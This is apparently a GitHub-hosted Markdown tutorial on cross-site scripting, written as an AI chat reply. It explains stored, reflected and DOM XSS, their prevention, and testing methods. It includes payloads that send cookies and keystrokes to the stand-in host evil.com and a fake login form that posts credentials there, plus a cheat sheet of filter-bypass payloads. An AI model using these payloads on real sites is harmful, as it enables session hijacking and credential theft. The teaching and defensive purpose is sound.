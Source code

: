 # Web-App-Vulns-Explained

Sure! Here's your **XSS deep dive** in a Markdown file.  

### 📌 **How to Download the File:**
1. Click the **Download** button (if your platform provides one).
2. If downloading isn't available, **copy the text below** into a file named **`xss_explained.md`** on your system.

---

### **📄 XSS Explanation in Markdown File**
#### **`xss_explained.md`**
````markdown
# 🔥 Cross-Site Scripting (XSS) – A Deep Dive

## 🎯 What is XSS?
**Cross-Site Scripting (XSS)** is a **client-side** web security vulnerability that allows an attacker to inject **malicious JavaScript** into a website, which then gets executed in a victim's browser. This can lead to:
- **Session hijacking**
- **Phishing attacks**
- **Data theft**
- **Account takeover**

---

## 🔥 Types of XSS

### 1️⃣ Stored XSS (Persistent)
- The **malicious script is stored** on the website (e.g., in a database).
- It affects **all users** who visit the infected page.
- Common in **comment sections, user profiles, and feedback forms**.

**Example Attack:**
1. An attacker posts the following comment:
   ```html
   <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```
2. The script gets **saved in the database**.
3. When other users visit the page, their cookies are **stolen** and sent to `evil.com`.

---

### 2️⃣ Reflected XSS (Non-Persistent)
- The script is **not stored** but **reflected** back in the HTTP response.
- The attack works only when the victim **clicks a malicious link**.

**Example Attack:**
1. The attacker tricks the victim into visiting:
   ```
   https://victim.com/search?q=<script>alert(1)</script>
   ```
2. The server includes the unsanitized input in the response:
   ```html
   <p>Search results for: <script>alert(1)</script></p>
   ```
3. The browser **executes** the JavaScript.

---

### 3️⃣ DOM-Based XSS
- The script is **not injected via HTTP responses** but **executed in the browser**.
- Happens when JavaScript **modifies the DOM** insecurely.

**Example Vulnerable Code:**
```html
<script>
    var search = new URLSearchParams(window.location.search);
    document.write("Search: " + search.get("q")); // ❌ UNSAFE
</script>
```
**Attack URL:**
```
https://victim.com/?q=<script>alert(1)</script>
```
📌 **Impact:** Attacker can **control the DOM** and execute arbitrary JavaScript.

---

## 🚀 How XSS Can Be Exploited

### 1️⃣ Cookie Theft (Session Hijacking)
**Payload:**
```html
<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```
📌 **Impact:**  
- Steals **session cookies** → Leads to **account takeover**.

---

### 2️⃣ Keylogging & Credential Theft
**Payload:**
```html
<script>
document.onkeypress = function(e) {
    fetch('https://evil.com/log?key=' + e.key);
};
</script>
```
📌 **Impact:**  
- Captures user keystrokes (passwords, messages, etc.).

---

### 3️⃣ Fake Login Forms (Phishing)
**Payload:**
```html
<script>
document.body.innerHTML = '<form action="https://evil.com" method="POST">'+
'<input name="username" placeholder="Enter username">'+
'<input name="password" type="password" placeholder="Enter password">'+
'<input type="submit"></form>';
</script>
```
📌 **Impact:**  
- Creates a **fake login form** to **steal credentials**.

---

## 🔐 How to Prevent XSS

### ✅ 1. Input Sanitization
- **Escape special characters** (`< > " ' &`) before displaying user input.

**Example (PHP):**
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```

---

### ✅ 2. Content Security Policy (CSP)
- Restrict JavaScript execution to **trusted sources**.

**Example CSP header:**
```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;
```

📌 **Prevents** inline scripts & untrusted JavaScript sources.

---

### ✅ 3. Secure JavaScript Handling
- Avoid `document.write()`:
  ```js
  document.write("<script>alert(1)</script>"); // ❌ UNSAFE
  ```
- Instead, use **safe DOM manipulation**:
  ```js
  var node = document.createElement("p");
  node.textContent = userInput; // ✅ SAFE
  document.body.appendChild(node);
  ```

---

### ✅ 4. HTTP-Only Cookies
- Prevent JavaScript from accessing session cookies:
  ```
  Set-Cookie: sessionid=abcd1234; HttpOnly; Secure
  ```

📌 **Mitigates session hijacking** via XSS.

---

## 🕵️ How to Find XSS (Bug Bounty/Pentesting)

### 🔍 Testing for Stored XSS
1. Enter payloads in **input fields (comments, profiles, feedback forms)**:
   ```html
   <script>alert('XSS')</script>
   ```
2. Refresh the page and check if the alert executes.

---

### 🔍 Testing for Reflected XSS
1. Try **URL parameters**:
   ```
   https://victim.com/search?q=<script>alert(1)</script>
   ```
2. Check if the script **reflects** in the response.

---

### 🔍 Testing for DOM-Based XSS
1. Look for JavaScript using `document.write()`, `innerHTML`, `eval()`:
   ```js
   document.write(location.search);
   ```
2. Test payloads:
   ```
   https://victim.com/?q=<script>alert(1)</script>
   ```

---

## 🛠️ XSS Cheat Sheet (Payloads)

🔹 **Basic Payload**
```html
<script>alert(1)</script>
```

🔹 **Bypassing `alert()` filters**
```html
<svg onload=confirm(1)>
```

🔹 **Executing JavaScript via `href`**
```html
<a href="javascript:alert(1)">Click me</a>
```

🔹 **Event-Based XSS**
```html
<img src="x" onerror="alert(1)">
```

🔹 **Bypassing CSP using JSONP**
```html
<script src="https://trusted.com/callback?param=<script>alert(1)</script>"></script>
```

---

## 🎯 Final Takeaways
✅ **XSS is dangerous** because it executes **malicious JavaScript** in the victim’s browser.  
✅ **Stored XSS is the worst** since it affects multiple users.  
✅ **Reflected XSS requires user interaction** (e.g., clicking a link).  
✅ **DOM XSS is harder to detect** but **still very dangerous**.  
✅ **Proper sanitization, escaping, and CSP policies** can prevent XSS.  

---

🔎 **Want to test XSS in a lab?** I can help you set up a test environment! 🚀
````

---
